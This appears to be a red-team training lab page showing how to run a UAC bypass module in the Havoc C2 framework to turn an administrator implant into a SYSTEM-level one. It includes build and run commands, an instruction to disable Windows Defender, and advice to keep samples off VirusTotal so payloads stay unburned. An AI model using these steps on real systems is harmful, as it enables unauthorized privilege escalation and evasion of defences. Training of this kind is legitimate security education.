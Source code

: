# Lab - UAC Bypass

<style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

> ***IMPORTANT*** : Please do not send submit samples to <r>Virus Total</r> or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training.
> **Make sure at all times that sample submussion in Microsoft Defender is `turned off`, and if for some reason you get prompted to submit a sample, deny the request.**

> ***IMPORTANT***: For this lab we will ***<r>TURN OFF Windows Defender</r>***. We will deal with AV evasion techniques later, for now let's focus on making sure we can escalate to the highest level of privileges (***NT AUTHORITY\SYSTEM***).

On kali :

```bash
cd /opt/havoc
mkdir modules
cd modules
https://github.com/icyguider/UAC-BOF-Bonanza.git
cd UAC-BOF-Bonanza
make
```
First let's now load or new UAC Bypass Module in havoc by clicking on `SCRIPT MANAGER` and locating the `Havoc-UACBypass,py` file.

On your windows machine, open a command prompt

```powershell
cd c:\temp\
demo.x64.exe
```
![Screenshot](./images/labuac_havocscript.jpg)

We have a beacon running in as user Threatadmin in HIGH intergity - but not as SYSTEM yet (don't worry this also works from medium integrity). We can run the `whoami` command to confirm this.

![screenshot](./images/labuac_havocwhoamithreat.jpg)

We can see here that the demon implant is running with
- user Threatadmin
- Part of the local administrators group
- in High integrity level

Now in the Havoc UI let's interact with this beacon and run our UAC-Bypass.

![Screenshot](./images/labuac_havocinteract.jpg)

```powershell
uac-bypass sspidatagram c:\temp\demon.x64.exe
```
![Screenshot](./images/labuac_havocuacsystem.jpg)

A new demon implant will spawn, but now running with SYSTEM privileges as you can verify this by interacting with this new session and running the `whoami` command again.

![Screenshot](./images/labuac_havocwhoami.jpg)

When opening systeminformer we can see the 2 demon implants (verify the process ID's)

![Screenshot](./images/labuac_si2.jpg)

To do the same attack but from an admin user running with `MEDIUM` integrity, just open a command prompt and type:

```powershell
runas /user:student_adm cmd.exe
```

This will run a command prompt as administrator (student_adm is part of the admininistrator group)